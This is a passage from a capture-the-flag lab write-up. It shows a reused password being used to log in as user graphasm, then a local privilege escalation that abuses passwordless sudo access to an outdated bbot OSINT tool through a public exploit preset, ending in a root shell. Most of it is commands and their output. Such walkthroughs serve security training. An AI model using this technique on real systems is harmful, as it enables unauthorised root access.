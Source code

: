 Trying this password to login as the graphasm user works and we can now read the user flag.

```
neo4j@cypher:/home/graphasm$ su graphasm
su graphasm
Password: cU4btyib.20xtCMCXkBmerhK

graphasm@cypher:~$ cat user.txt
eaccb7<SNIP>
```
## Privilege Escalation
Once we have access to this user we can run `sudo -l` to list which binaries we can run as sudo without providing a password.

```
sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

Viewing the help command we can see that he version of this tool is outdated an vulnerable to local privilege escalation. I used [this post](https://seclists.org/fulldisclosure/2025/Apr/19) and [this github](https://github.com/Housma/bbot-privesc) repository to exploit this.

```
sudo /usr/local/bin/bbot -h
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc
```
After uploading the github repository to the machine I use the following command to get root
```
sudo /usr/local/bin/bbot -t dummy.com -p /home/graphasm/bbot-privescpreset.yml --event-types ROOT

  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 1 targets (1 in whitelist)
[INFO] Loaded 1/1 scan modules (systeminfo_enum)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)

[SUCC] systeminfo_enum: 📡 systeminfo_enum setup called — launching shell!

root@cypher:/home/graphasm/10.10.14.9/bbot-privesc# whoami
whoami
root
root@cypher:/home/graphasm/10.10.14.9/bbot-privesc# cat ~/root.txt
cat ~/root.txt
32e50904ec<SNIP>
```